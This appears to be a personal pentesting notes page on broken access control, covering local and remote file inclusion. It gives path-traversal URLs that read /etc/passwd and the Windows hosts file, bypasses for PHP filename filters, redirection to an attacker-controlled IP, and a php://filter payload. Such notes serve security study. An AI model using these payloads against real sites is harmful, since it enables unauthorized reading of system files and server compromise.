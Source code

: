 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Broken Access Control

When a user can see or do things they aren't supposed to. The most common ways in wich it's presented are:

* **IDOR:** Insecure Direct Object Reference, when an application fail to secure access to restringed data to an user
* **Weak authorization:** Fail to protect sensitive content. Example: Secure admin page with a readable cookie
* **Security through obscurity:** Try to hide secret information in paths that seems  not to be visible.
* **File Inclusion:** Setting routes via URL to access system files or redirecting to another pages



## <mark style="color:purple;">Local File Inclusion</mark>

Also known as LFI, able to get a website to include a file that was not intended to be an option for this application

* Check if parameters in URL recieve name of a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Its searching for a file
http://$url/$query?$param=hola.php
#We can try to access to system important files
www.ddd.com/sss?file=/etc/passwd
```
{% endcode %}

***

* When can't be done directly try to get to root folder

{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../etc/passwd

#Same can be done in windows
http://$url/$query?$param=../../../../../../WINDOWS/system32/drivers/etc/hosts
#Common file for save host name and ip in windows
```
{% endcode %}

{% hint style="info" %}
Use as many ../ as posible to get to root floder
{% endhint %}

***

* In some cases try to check page code to see conditions of the input

{% code overflow="wrap" lineNumbers="true" %}
```bash
#The code is searching for a file that starts with file
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {

http://$url/$query?$param=file/../../../../etc/passwd

#The code is replacing ../, we can use \ to skip check
$file = str_replace( array( "../", "..\\" ), "", $file );

http://$url/$query?$param=..\/..\/..\/..\/etc/passwd
```
{% endcode %}

***



## <mark style="color:purple;">Remote File Inclusion</mark>

Also known as RFI, it is possible for an attacker to redirect actions to or from a another server

* Redirect actions of a server via URL parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#Its searching for a file
http://$url/$query?$param=hola.php
<strong>#Redirection to another site
</strong>http://$url/$query?$param=http://$url
#Redirection to a local server
http://$url/$query?$param=//$myip
</code></pre>

***

* When can use another method or conection

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Code is blocking hhtp
$file = str_replace( array( "http", "https" ), "", $file );
#We can use another php conection
http://$url/$query?$param=php://filter/resource=/etc/passwd
```
{% endcode %}

***

